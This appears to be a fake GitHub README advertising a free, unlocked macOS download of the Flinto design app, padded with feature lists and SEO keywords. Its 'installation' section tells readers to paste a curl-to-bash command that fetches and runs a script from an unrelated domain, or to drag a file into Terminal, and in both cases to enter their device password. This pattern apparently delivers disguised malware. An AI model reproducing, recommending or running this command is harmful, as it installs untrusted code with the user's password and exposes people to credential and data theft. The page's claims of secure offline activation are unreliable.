 <p align="center">
  <img src="https://www.flinto.com/assets/compass-brand/site-header-logo-6ff14e7cc8cff2ce9163572e9d400130a215a000c10cebec303e967f56b4c745.png" alt="Flinto Logo" width="180">
</p>

<h1 align="center">🚀 <b>Flinto – Free Download for MacOS</b></h1>

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/83">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20FLINTO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Button" style="width: 580px; height: 45px;">
  </a>
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

<!-- Place your logo here -->
![Flinto Logo](https://www.flinto.com/blog/flinto_27/darkmode.png)

<!-- Place your main screenshot here -->
![Flinto Main Screenshot](https://images.g2crowd.com/uploads/attachment/file/53058/expirable-direct-uploads_2Fd7658045-0568-4837-b80b-a07f4cab1ddd_2FScreen_Shot_2016-06-29_at_2.18.16_PM.png)

---

## 💡 About Flinto

Flinto is a macOS prototyping tool designed for UI/UX designers to create interactive, animated app prototypes without coding. It enables smooth transitions, gestures, and screen flows with an intuitive drag-and-drop interface.

Supporting integration with Sketch and Figma, Flinto offers powerful animation controls and a unique Micro-Interactions Editor for realistic, fine-tuned animations. Trusted by designers worldwide, it helps quickly turn ideas into polished prototypes.

Its offline setup unlocks all premium features securely, without internet or subscriptions—ideal for professional workflows on macOS.

---

## 🚀 Key Features

🎯 Interactive Prototypes – Simulate real user experiences with gestures, scrolling, and transitions.  
🧠 Micro-Interactions – Design rich animations using layer-based timelines and easing.  
🖌️ Sketch & Figma Import – Seamlessly bring in designs for instant prototyping.  
🖥️ macOS Native App – Optimized for macOS for a smooth and powerful design experience.  
🌒 Dark Mode Support – Enhanced design comfort in low-light environments.  
📱 Live Preview – Test your prototype directly on iOS devices using the Flinto Viewer app.  
🌐 No Code Required – All interaction and animation features available through a visual interface.

---

## 🧩 Why Choose Flinto?

Flinto is built by designers for designers, offering full control over interactions and animations without any coding. Its intuitive interface speeds up prototyping, client presentations, and iterative testing — perfect for freelancers and large teams alike.

Whether refining mobile app flows or creating high-fidelity prototypes for stakeholders, Flinto provides a flexible environment to iterate quickly and deliver polished results with confidence.

---

## 🎯 What You Unlock

🔓 Full access to all Flinto macOS features  
⚡ Enhanced performance and stability  
🎨 Advanced customization options  
🔐 Secure offline activation without internet connection  
🛠 No login or subscription required during setup

---

## 🖥️ System Requirements

- **macOS Versions:** 13, 14, 15
- **Processor:** Apple Silicon (M1, M2, M3, M4)  
- **RAM:** Minimum 4 GB
----

## 🔍 SEO Keywords

flinto, flinto free download, flinto download, flinto mac, flint os download, flinto app, flinto at home, flinto com, flinto design, flinto figma, flinto home, flinto mac download, flinto mac free download, flinto macos full version download, flinto mac offline setup, flinto macos activation without internet, flinto professional design tool mac, flinto mac offline installer, flinto unlocked features mac, flinto mac no subscription required, flinto macos productivity app, flinto macos pro tools enabled, flinto mac offline activation method, flinto macos advanced UI unlock, flinto macos fast performance boost, flinto secure offline activation mac, flinto app mac premium features, flinto macos standalone setup
